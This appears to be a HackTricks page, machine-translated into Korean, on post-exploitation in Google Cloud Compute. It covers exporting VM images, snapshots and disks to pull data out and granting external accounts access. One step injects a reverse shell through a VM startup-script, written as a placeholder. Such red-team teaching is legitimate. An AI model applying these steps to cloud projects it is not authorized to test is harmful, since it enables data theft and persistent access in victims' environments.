# GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Compute 및 VPC(네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지를 로컬로 내보내고 검사하기

이것은 공격자가 **이미 존재하는 이미지에 포함된 데이터에 접근**하거나 **실행 중인 VM의 새로운 이미지를 생성**하고 실행 중인 VM에 접근하지 않고도 해당 데이터에 접근할 수 있게 합니다.

VM 이미지를 버킷으로 내보낸 다음 다운로드하고 다음 명령으로 로컬에 마운트할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해 공격자는 스토리지 버킷에 대한 권한과 **cloudbuild에 대한 권한**이 필요할 수 있습니다. 이는 **서비스**가 내보내기를 수행하도록 요청받을 것이기 때문입니다.\
또한, 이를 위해 codebuild SA와 compute SA는 권한이 필요합니다.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`는 다음이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`는 다음이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크를 로컬로 내보내고 검사하기

스냅샷과 디스크를 직접 내보내는 것은 불가능하지만, **스냅샷을 디스크로, 디스크를 이미지로 변환**하고 **이전 섹션**에 따라 해당 이미지를 내보내어 로컬에서 검사하는 것은 가능합니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VM 생성 시 이미지 검사

**이미지에 저장된 데이터** 또는 **공격자가 이미지를 생성한 실행 중인 VM** 내부에 접근하는 것을 목표로 하여, 외부 계정이 이미지에 대한 접근 권한을 부여할 수 있습니다:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
그리고 나서 그것으로부터 새로운 VM을 생성합니다:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
만약 이미지에 대한 외부 계정 접근을 허용할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 VM을 시작하고 **메타데이터가 리버스 셸을 실행하도록 만들 수 있습니다**. 매개변수를 추가하여:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### VM에 연결하여 스냅샷/디스크 검사하기

**디스크나 스냅샷에 저장된 데이터에 접근하는 것을 목표로, 스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.**

또는 **외부 계정에 디스크에 대한 접근 권한을 부여할 수 있습니다** (시작점이 스냅샷인 경우 스냅샷에 대한 접근 권한을 부여하거나 그로부터 디스크를 생성합니다):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**인스턴스에 디스크 연결**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
VM 내부에 디스크를 마운트합니다:

1.  **VM에 SSH 접속**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새 디스크 또는 원시 디스크인 경우):
*   마운트 포인트 생성:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   디스크 마운트:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

**외부 프로젝트에 스냅샷 또는 디스크에 대한 액세스를 제공할 수 없는 경우**, **스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이러한 작업을 수행해야 할 수 있습니다**.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
